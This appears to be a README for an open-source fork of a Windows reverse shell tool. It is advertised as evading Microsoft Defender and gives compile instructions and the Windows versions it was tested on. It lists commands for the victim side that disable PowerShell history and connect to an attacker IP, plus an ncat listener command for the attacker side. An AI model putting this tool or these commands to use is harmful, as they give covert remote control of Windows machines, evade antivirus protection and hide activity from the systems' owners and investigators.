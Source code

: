 # ConTtyShell
ConPtyShell Fork that Evades Microsoft Defender (as of 25/11/2024)

**Original:**

https://github.com/antonioCoco/ConPtyShell

**Compile with:**

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /platform:x64 -nologo -debug -out:ConTtyShell.exe .\ConTtyShell.cs`

**Tested on:**
* Windows Server 2016 Datacenter 10.0 x64 Build 14393
* Windows 10 22H2 x64
* Windows 11 22H2 x64


**Victim side usage example:**

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing
.\ConTtyShell.exe attacker-ip 6666
```

**Attacker side usage example:**

```
stty raw -echo; (stty size; cat) | ncat -lvnp 6666
```
